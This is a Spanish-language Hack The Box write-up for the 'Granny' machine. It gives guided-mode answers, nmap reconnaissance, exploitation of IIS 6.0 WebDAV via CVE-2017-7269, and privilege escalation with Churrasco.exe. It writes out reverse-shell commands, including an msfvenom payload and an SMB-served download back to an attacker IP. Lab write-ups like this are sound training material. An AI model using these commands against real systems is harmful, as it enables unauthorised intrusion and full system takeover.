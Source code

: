 ```yaml
---
title: Writeup granny - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - granny
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina granny en Hack The Box.
keywords:
  - writeup granny
  - hack the box granny
  - resolución máquina granny
  - granny hack the box
  - htb granny
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: 
- 📺 **Resolución en vivo (completa)**: 
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #churrascoexe #impacket-smbserver #CVE-2017-7269 #whatweb #wappalyzer #whoami #msfvenom #rwrapncnlvp443 

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Granny?
	1

2)¿Cómo se llama el script de nmap que identifica los métodos HTTP permitidos en Granny?
	http-webdav-scan

3)¿Qué marco de aplicaciones web basado en DOTNET se está ejecutando en el servidor web de destino?
	ASP.NET

4)¿Qué método HTTP se puede utilizar para subir archivos a Granny?
	PUT

5)¿Cuál es el ID CVE 2017 de una vulnerabilidad que aprovecha esta versión de IIS y WebDAV, lo que da lugar a la ejecución remota de código?
	CVE-2017-7269

6)¿Qué módulo de reconocimiento de Metasploit se puede utilizar para enumerar las posibles rutas de escalada de privilegios en un sistema comprometido?
	local_exploit_suggester

----

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.15
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.15 -oG allPorts
nmap -sC -sV -p80 10.10.10.15 -oN targetTCP
nmap -sU -Pn -n -vvv --top-ports 200 10.10.10.15 -oN targetUDP
```

![[Granny1.png]]

![[Granny2.png]]

![[Granny3.png]]
*TTL:* Maquina Windows
*Puertos TCP:*
	`80` HTTP
*Puertos UDP:*
	Demasiado ruido, no hay información relevante

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.15/
```

![[Granny5.png]]
![[Granny4.png]]
Lo impor tante es microsoft-IIS 6.0

---------
# [[CVE-2017-7269]]

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina

--------
# Escalada de privilegios con [[Churrasco.exe]]

Usamos [[whoami]] con el comando `whoami /all`

![[Granny10.png]]
Vemos que *SeImpersonatePrivilege* esta activado
Se podria hacer un JuicyPotato pero como es un windows muy viejo vamos a usar la version anterior que es la de [[Churrasco.exe]]
Descargamos el exploit desde este [repositorio](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe)


### Con [[msfvenom]] vamos a crear el ejecutable *exploit.exe* para enviarnos una [[Reverse shell]]

```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe
```
![[Granny19.png]]



Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`
![[Granny15.png]]

Ejecutamos el [[Churrasco.exe]] pasandole el *exploit.exe* que creamos para enviarnos una [[Reverse shell]] con [[msfvenom]]

![[Granny14.png]]
Mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] con el comando `rlwrap nc -nlvp 500` para enviarnos una [[Reverse shell]]
![[Granny12.png]]
Ya elevamos nuestro privilegio al maximo y podemos ver las flags

![[Granny16.png]]
![[Granny17.png]]

------
# Creditos

[Writeup jtsec](https://www.jtsec.es/blog-entry/61/road-to-oscp-hack-the-box-write-up-granny)
[Writeup binaryregion](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
